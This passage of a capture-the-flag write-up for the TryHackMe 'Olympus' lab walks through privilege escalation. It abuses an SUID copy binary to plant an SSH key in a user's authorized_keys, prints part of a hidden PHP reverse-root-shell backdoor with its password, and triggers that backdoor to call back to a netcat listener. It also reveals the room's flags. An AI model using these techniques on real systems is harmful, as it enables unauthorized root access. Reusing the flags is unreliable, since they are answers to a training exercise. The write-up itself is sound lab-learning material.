

we can grab the user flag from `zeus` home folder:
```bash
www-data@ip-10-64-168-169:/home/zeus$ cat user.flag 
flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
```

### Move to user zeus using SUID on cputils

Using linpeas we find the SUID binary `/usr/bin/cputils`.



After analyzing, I realized this binary simply copy files from one location to other. So, I decided to create pair of ssh keys:
```bash
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ ssh-keygen -t rsa -b 2048 -f ./key -q -N ""                                                                                                                                              
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Olympus]                                                                                                                                                            
└─$ cat key.pub | xclip -sel clip
``` 

Then, we can create our file inside `/tmp`:
```bash
www-data@ip-10-64-168-169:/home/zeus$ echo -e 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOQzuCt1opyfzRAWx80GCrTBB21Ur2uGvcWfz8tvBzowGC8UJ3O6lgUigk/55j9nVApPzJCd69XQW0K9hv9M/jXRpm5NUkZ0uQww+U9q
Yr0xznb/C45L5fLSLhDv3LuSRUfODY8YZhqBM39fzRQmFqAOZp7evI6w76ei9VCkp/Ps+JIC4bQJ8dI0MSBWejfteRyPziLZKlKCURCzXuQWwOOZorCR8I6fXr/dWf3e5C5UW1yfSiWqCBF3E2IeMAy3L5QiI237nd1TQpEzd5U+iSOlUCpoaBxpz6+My
dBL6SmHcy3D3wMzfhFyQYR9KAi1fYJRuI8mfCu6Td+CGQEFll agonen@kali' > /tmp/authorized_keys
```

and lastly, copy from `/tmp/authorized_keys` to `/home/zeus/.ssh/authorized_keys`.



Now, we can login using ssh, as user `zeus`:
```bash
ssh zeus@olympus.thm -i ./key
```



### Privilege Escalation to Root using hidden backdoor found at /0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php

Inside `/var/www/html` we can find hidden folder:
```bash
zeus@ip-10-64-168-169:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15  2022 .
drwxr-xr-x 3 www-data www-data 4096 May  1  2022 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14  2022 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15  2022 VIGQFQFMYOST.php
```



I tried to access it, but I got 404 not found:



Then, I checked `/etc/hosts` and notices there is another domain I didn't add to my `/etc/hosts`:
```bash
zeus@ip-10-64-168-169:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 olympus
127.0.0.1 olympus.thm
127.0.0.1 chat.olympus.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Okay, let's add `olympus` to our `/etc/hosts`.

Now, we can access again:
```bash
http://olympus/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
```



It wants some password, Luckily we have the source code :D
```bash
zeus@ip-10-64-168-169:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php | head
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];
```

Okay, the password is `a7c5ffcf139742f52a5267c4a0674129`:



Okay, it gives us some reverse shell? why not.
Let's try with this:
```bash
http://olympus/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=192.168.164.248&port=1337
```
and of course, setup the listener:
```bash
nc -nlvp 1337
```



Okay, we got root reverse shell!

and after pasting the penelope payload:



We can grab the root flag:
```bash
root@ip-10-64-168-169:/root# cat root.flag 
                    ### Congrats !! ###


                            (
                .            )        )
                         (  (|              .
                     )   )\/ ( ( (
             *  (   ((  /     ))\))  (  )    )
           (     \   )\(          |  ))( )  (|
           >)     ))/   |          )/  \((  ) \
           (     (      .        -.     V )/   )(    (
            \   /     .   \            .       \))   ))
              )(      (  | |   )            .    (  /
             )(    ,'))     \ /          \( `.    )
             (\>  ,'/__      ))            __`.  /
            ( \   | /  ___   ( \/     ___   \ | ( (
             \.)  |/  /   \__      __/   \   \|  ))
            .  \. |>  \      | __ |      /   <|  /
                 )/    \____/ :..: \____/     \ <
          )   \ (|__  .      / ;: \          __| )  (
         ((    )\)  ~--_     --  --      _--~    /  ))
          \    (    |  ||               ||  |   (  /
                \.  |  ||_             _||  |  /
                  > :  |  ~V+-I_I_I-+V~  |  : (.
                 (  \:  T\   _     _   /T  : ./
                  \  :    T^T T-+-T T^T    ;<
                   \..`_       -+-       _'  )
                      . `--=.._____..=--'. ./          


                You did it, you defeated the gods.
                        Hope you had fun !


                   flag{D4mN!_Y0u_G0T_m3_:)_}


PS : Prometheus left a hidden flag, try and find it ! I recommend logging as root over ssh to look for it ;)

                  (Hint : regex can be usefull)
```

Since we now the structure of the flag is like: `flag{...}`, we can use `grep` to find the forth flag:
```bash
root@ip-10-64-168-169:/# grep -E "flag{.*}" -rnai /etc /home /opt /root 2>/dev/null
/etc/ssl/private/.b0nus.fl4g:3:flag{Y0u_G0t_m3_g00d!}
/home/zeus/user.flag:1:flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
/root/root.flag:40:                   flag{D4mN!_Y0u_G0T_m3_:)_}
```



So, the forth flag is:
```bash
flag{Y0u_G0t_m3_g00d!}
```